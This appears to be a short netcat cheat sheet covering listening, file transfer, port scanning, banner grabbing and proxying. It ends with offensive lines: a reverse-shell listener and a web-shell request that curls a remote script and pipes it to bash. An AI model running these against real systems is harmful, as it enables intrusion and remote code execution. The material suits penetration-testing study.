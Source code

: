 # `nc` (Netcat)

Netcat is a versatile networking utility that is used for reading from and writing to network connections using TCP or UDP protocols

### To listen on a specific port
nc -l -p <port>

### To connect to a server on a specific host and port
nc <host> <port>

File Transfer:

Netcat can be used to transfer files between systems.
bash

### On the receiving end
nc -l -p <port> > received_file

### On the sending end
nc <host> <port> < file_to_send


Port Scanning:

Netcat can be used for basic port scanning to check the status of ports on a remote server.
bash

nc -zv <host> <start_port>-<end_port>
Banner Grabbing:

Netcat can be used to grab banners or information from network services.
bash

nc -v <host> <port>

Chat Server and Client:

Netcat can facilitate simple chat communication between systems.
bash

### On the server
nc -l -p <port>

### On the client
nc <host> <port>

Proxying:

Netcat can act as a basic proxy to forward traffic between two hosts.
bash

### On the proxy server
nc -l -p <local_port> | nc <remote_host> <remote_port>

### On the client
nc -N <proxy_host> <proxy_port>

### Listen for resverse shell
nc -nvlp 1337

Launch a web server on your machine and visit the URL:
python3 -m http.server 8000
<hostname>/shell.php?cmd=curl%20<IP_ADDRESS>:8000/shell.sh|bash
